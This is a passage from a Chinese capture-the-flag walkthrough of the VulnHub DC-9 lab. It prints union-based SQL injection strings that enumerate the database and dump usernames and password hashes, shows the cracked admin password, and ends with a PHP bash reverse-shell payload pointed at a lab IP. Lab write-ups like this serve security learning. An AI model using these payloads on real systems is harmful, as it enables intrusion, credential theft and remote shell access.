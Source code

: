 ![](D:\stu\vulnhub\DC靶场\pic-9\8.jpg)

构造语句获取表

```shell
tom' union select group_concat(table_name),version(),3,user(),5,6 from information_schema.tables where table_schema=database()#

后面因为原因，再次想要访问，发现原本的语句不能使用，下面是换的语句
tom' union select concat(table_name),null,null,null,null,null from information_schema.tables#
```

![](D:\stu\vulnhub\DC靶场\pic-9\9.jpg)

发现两个表，一个`Users`值得关注

构造语句

```shell
tom' union select concat(column_name),version(),3,user(),5,6 from information_schema.columns where table_name='Users'#

tom' union select concat(column_name),version(),3,user(),5,6 from information_schema.columns where table_name='StaffDetails'#
```

![](D:\stu\vulnhub\DC靶场\pic-9\10.jpg)

直接通过查询获取对应元组的数据

```shell
tom' union select concat(Username,'|',Password),version(),3,user(),5,6 from Users#
```

![](D:\stu\vulnhub\DC靶场\pic-9\11.jpg)

获取到用户名`admin`和密码`856f5de590ef37314e7c3bdf6f8a66dc`

这个像是`md5`加密，访问网站`cmd5.com`，能解出，但是是付费记录

那么换一个网站`somd5.com`，获取密码`transorbital1`

![](D:\stu\vulnhub\DC靶场\pic-9\12.jpg)

在浏览器关闭当前连接的IP，按着`ctrl+shift+delete`，把浏览器最近记录删除，这样再访问`manage`就可以再登录了

## 尝试sql注入反弹shell

这时候输入上面的用户名和密码，即可登录成功，并且，当前登录后的界面只有一个`add recard`是新的，这里就可以与前面的数据进行比对，因为这里应该是写入到数据库中的，因为好多列名都是与前面的一样的

![](D:\stu\vulnhub\DC靶场\pic-9\13.jpg)

尝试直接在这里进行注入下面的语句

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'"); ?>
```

